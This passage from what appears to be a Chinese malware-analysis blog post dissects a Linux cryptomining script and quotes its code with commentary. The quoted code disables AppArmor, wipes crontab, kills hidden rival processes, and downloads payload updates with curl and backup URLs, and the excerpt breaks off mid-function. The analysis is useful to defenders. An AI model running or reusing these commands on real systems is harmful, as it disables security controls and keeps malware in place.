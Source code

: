 ```
chattr +i /usr/lib/systemd/systemd-update-daily
 
#再歇一会，太辛苦了
sleep 1
 
#不仅要停止你，还有让你不能自已（启）
service apparmor stop
systemctl disable apparmor
#略一部分格式相同的
 
# 解锁定时任务，然后清空
chattr -i /etc/crontab
crontab -r
 
#怕你有隐藏的的程序，
#现下一个软件
#来发现你，然后干掉你
#属实冰冷无情
apt-get install -y unhide
yum install -y unhide
sleep 1
dddir="/usr/sbin/unhide"
$dddir quick |grep PID:|awk '{print $4}'|xargs -I % kill -9 % 2&gt;/dev/null
```

这个函数最长，里面的kill命令乱糟糟，可以看出是不断后续添加的，就是为了跟“同行”争夺矿机，也是蛮卖力气的。

毕竟同行竞争太激烈了，写这篇文章的时候，后面我就遇到了另一伙人席卷而来，暂时覆盖掉了这一伙。

**downloads()**

> 下载函数，负责更新shell脚本和病毒程序

> 有三个参数分别对应**主链接**、**文件**和**备用链接**

```
#此处判断的是对应网络下载工具是否还在，分别判断curl、cur、wget、wge
#只要有一个能用就行
if [ -f "/usr/bin/curl" ]
then
echo $1,$2
# -I 显示请求头，-m 设置最大传输时间 -0 写入文件 -s 静默不输出
# -w %{} 以指定格式输出，获取响应码；
http_code=`curl -I -m 10 -o /dev/null -s -w %{http_code} $1`
# 如果响应码是200/405，就都正常访问，并把获取的文件写入到参数2就是update.sh
if [ "$http_code" -eq "200" ]
then
curl --connect-timeout 10 --retry 100 $1 &gt; $2
elif [ "$http_code" -eq "405" ]
then
curl --connect-timeout 10 --retry 100 $1 &gt; $2
else
#如果主链接超时了就启用备用链接
curl --connect-timeout 10 --retry 100 $3 &gt; $2
fi
# 秉持着如果这个不能用，那我就换一个，真是严谨。
elif [ -f "/usr/bin/cur" ]
then
http_code = `cur -I -m 10 -o /dev/null -s -w %{http_code} $1`
if [ "$http_code" -eq "200" ]
then
cur --connect-timeout 10 --retry 100 $1 &gt; $2
elif [ "$http_code" -eq "405" ]
then
cur --connect-timeout 10 --retry 100 $1 &gt; $2
else
```